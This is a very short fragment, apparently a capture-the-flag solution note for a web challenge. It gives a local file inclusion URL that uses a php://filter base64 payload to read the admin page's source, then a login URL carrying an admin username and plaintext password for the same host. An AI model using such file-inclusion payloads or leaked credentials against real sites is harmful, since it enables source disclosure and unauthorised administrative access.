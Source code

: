 LFI: http://splitline.tw:8400/?page=php://filter/read=convert.base64-encode/resource=admin
Login: http://splitline.tw:8400/admin.php?username=admin&password=kqqPFObwxU8HYo8E5QgNLhdOxvZmtPhyBCyDxCwpvAQ
